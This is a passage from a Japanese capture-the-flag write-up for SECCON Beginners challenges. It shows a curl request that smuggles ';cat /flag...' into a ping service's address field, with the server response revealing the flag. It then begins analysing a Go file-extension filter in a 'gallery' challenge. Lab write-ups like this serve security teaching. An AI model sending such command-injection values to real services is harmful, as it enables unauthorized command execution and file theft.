 `flag_A74FIBkN9sELAjOc.txt`というファイルがあった。catで中身を見て見る。

`curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;cat /flag_A74FIBkN9sELAjOc.txt"}'`

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.134 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.134/0.134/0.134 ms\nctf4b{al1_0vers_4re_i1l}\n"
}
```

`ctf4b{al1_0vers_4re_i1l}`

### gallery

いくつかの写真を見ることができるWebサイトのようだ。

![gallery-1](./gallery-1.png)

URLで`https://gallery.quals.beginners.seccon.jp/?file_extension=jpeg`のように`file_extension`を指定すると、そのファイルのみを表示することができる。

該当プログラムを見るとこのようになっている。

```go
fileExtension := strings.ReplaceAll(r.URL.Query().Get("file_extension"), ".", "")
fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
if fileExtension == "" {
    fileExtension = "jpeg"
}
...
for _, file := range files {
    if !strings.Contains(file.Name(), fileExtension) {
        continue
    }
    res = append(res, file.Name())
}
```
